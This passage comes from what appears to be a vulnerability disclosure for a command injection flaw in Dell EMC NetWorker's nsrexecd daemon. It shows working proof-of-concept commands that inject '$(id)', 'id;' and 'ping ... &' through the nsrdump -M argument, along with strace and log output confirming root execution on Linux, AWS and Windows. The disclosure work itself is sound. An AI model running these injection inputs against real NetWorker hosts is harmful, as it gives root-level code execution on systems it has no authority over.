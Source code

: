 ```
[root@networker-server /]# export RCMD="nsrdump -m root@localhost -o test -M '\$\(id\)'"
[root@networker-server /]# nsrexec -c 127.0.0.1
sh: uid=0(root): command not found
89477 1613727689 5 1 2 1844410176 16447 0 networker-server nsrdump SYSTEM critical 23 error
sending mail: %s. 1 0 105 $(id) -s "Report Home 1.0 networker-server1606991028192168121238"
root@localhost < "/nsr/applogs/rh/test"
```

This is confirmed by *stracing* the nsrexecd daemon. As we can see in the excerpt below, the `id` binary is launched with execve:

```
[pid  4018] execve("/usr/sbin/nsrdump", ["/usr/sbin/nsrdump", "-o", "test", "-M", "id;",
"-m", "root@localhost"], 0x7f91fc00ecf0 /* 10 vars */) = 0
[pid  4025] execve("/bin/sh", ["sh", "-c", "id; -s \"Report Home 1.0 networke"...], 
0x7ffd3cd861d8 /* 10 vars */) = 0
[pid  4026] execve("/usr/bin/id", ["id"], 0x81b4f0 /* 13 vars */) = 0
```

##### Validating on AWS

We confirmed that this vulnerability affects version (19.4.0.0.Build.25) by launching the attack against our Networker deployment on AWS.

```
[root@networker-client ~]# export RCMD="nsrdump -m root@localhost -o test -M 'id;'"
[root@networker-client ~]# nsrexec -c 52.86.24.194
uid=0(root) gid=0(root) groups=0(root)
sh: -s: command not found
89477 1613665920 5 1 2 3015612224 4388 0 ip-172-31-50-5.ec2.internal nsrdump SYSTEM critical 23
error sending mail: %s. 1 0 117 id; -s "Report Home 1.0 ip-172-31-50-5.ec2.internal161358023617231505"
root@localhost < "/nsr/applogs/rh/randomstuff"
```

##### Validating on Windows

Windows hosts are also affected, here we demonstrate it by executing `ping`. First we set the command via `RCMD`, this time using a `&` separator to inject our command:

```
export RCMD="nsrdump -m root@localhost -o testy -M 'ping -n 3 192.168.121.238 &'"
nsrexec -c networker-win
```

As we can see from the Process Monitor screenshot below, the `nsrexecd` daemon launched `nsrdump`, which in turn launched `cmd.exe` with our injected command:

{:.foo}
![windows]({{site.url}}/assets/nsrexecd_proc_dump.png)

Below is the nsrdump full command line:

```
"C:\Program Files\EMC NetWorker\nsr\bin\nsrdump.exe" -m root@localhost -o testy -M "ping -n 3 192.168.121.238 &"
```
